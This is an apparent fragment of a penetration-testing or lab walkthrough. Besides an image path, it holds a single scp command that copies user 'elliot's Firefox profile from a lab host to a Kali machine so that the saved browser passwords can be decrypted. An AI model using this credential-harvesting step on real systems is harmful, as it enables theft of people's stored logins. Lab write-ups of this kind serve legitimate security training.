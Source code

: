 scp -o StrictHostKeyChecking=no -r elliot@192.168.56.124:/home/elliot/.mozilla/firefox/esmhp32w.default-default /home/kali/firefox_decrypt/
